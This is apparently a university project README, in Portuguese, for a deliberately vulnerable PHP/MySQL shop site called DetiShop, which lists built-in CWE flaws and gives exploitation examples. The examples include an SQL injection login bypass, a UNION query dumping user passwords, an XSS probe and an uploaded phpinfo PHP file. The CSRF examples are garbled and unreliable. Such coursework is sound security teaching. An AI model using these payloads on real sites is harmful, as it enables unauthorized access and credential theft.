








# group34-sio2023

## Menbros do Grupo

- Rafael Ferreira (102432)
- Guilherme Lopes (103896)
- Gabriel Teixeira (107876)

Aqui em Baixo tem o Relatorio com todas as explicações e suas vulnerabilidades:

[Relatório](Proj_103896_107876_102431.pdf)


</br>


## Descrição

  * Este documento tem como objetivo apresentar as vulnerabilidades identificadas em um website desenvolvido pelo nosso grupo, juntamente com suas respectivas correções. O projeto consistiu na criação de dois ambientes: um site inseguro e outro seguro, ambos com o tema de uma loja denominada DetiShop.
Abordaremos as vulnerabilidades encontradas no site inseguro e descreveremos as soluções adotadas para tornar o site seguro. Essa análise visa não apenas identificar os problemas de segurança, mas também destacar as melhores práticas para proteger uma aplicação web


</br>


</br>

## Tecnologias usadas    👨‍💻

### MYSQL

   * O sistema de gerenciamento de banco de dados MySQL é uma parte fundamental do nosso projeto. Ele atua como o repositório de dados para a loja online DetiShop. O MySQL é um sistema de banco de dados relacional que organiza dados em tabelas relacionadas. Ele nos permite armazenar informações sobre produtos, pedidos, clientes e muito mais. Utilizamos a linguagem SQL para inserir, recuperar e modificar dados de maneira eficaz.

### PHP
  *  A linguagem de programação PHP desempenha um papel crucial na criação da lógica dinâmica do nosso site DetiShop. Ele é executado no servidor e é responsável por processar solicitações dos usuários, gerar páginas da web dinâmicas e interagir com o banco de dados MySQL. Com o PHP, podemos criar páginas personalizadas, gerar conteúdo com base nas preferências dos clientes e garantir uma experiência interativa e dinâmica para os visitantes do site.

### Apache

  * O servidor web Apache é o servidor HTTP escolhido para hospedar o nosso site. Ele atua como intermediário entre os navegadores dos usuários e o nosso aplicativo web. O como é altamente configurável e suporta recursos essenciais de segurança, autenticação e manipulação de solicitações HTTP. Ele é responsável por servir o conteúdo gerado pelo PHP aos visitantes do site DetiShop de forma eficiente e segura.


## ⚠️ Vunerabilidades Desenvolvidas ⚠️

*  CWE-89 [SQL Injection](#sql-injection)
*  CWE-79 [XSS](#xss)
*  CWE-352 [CSRF](#csrf)
*  CWE-22 Path traversal
*  CWE-20 Input Validation
*  CWE-311 Missing Encryption
*  CWE-434 [Upload Dangerous File](#Input-Dangerous-File)
*  CWE-839 Numeric Range
*  CWE-839 Incorrect Authorization


## Exemplos de exploração de algumas vulnerabilidas

###  SQL Injection


Exemplos de injeção SQL desemvolvidos:

```sql
admin' and 1=1 -- //
Pass: aleatório 
```

```sql
ca' UNION SELECT id,nome,pass,null,null,null,null from user; -- //
```




## XSS 

```sql
<script>alert("Hackzinho")</script>
```






## CSRF

```sql
<a href="images"></a>

or

<a href="images">Olá foste hackeado</a>

or 

<a href="images"></a>
<a href="images"></a>

```







## Input Dangerous File

ficheiro ola.php que quando executado lista informação do sistema:
```php
<?php
    phpinfo();
    phpinfo(INFO_MODULES);
?>
```
http://localhost/detishop/images/ola.php:


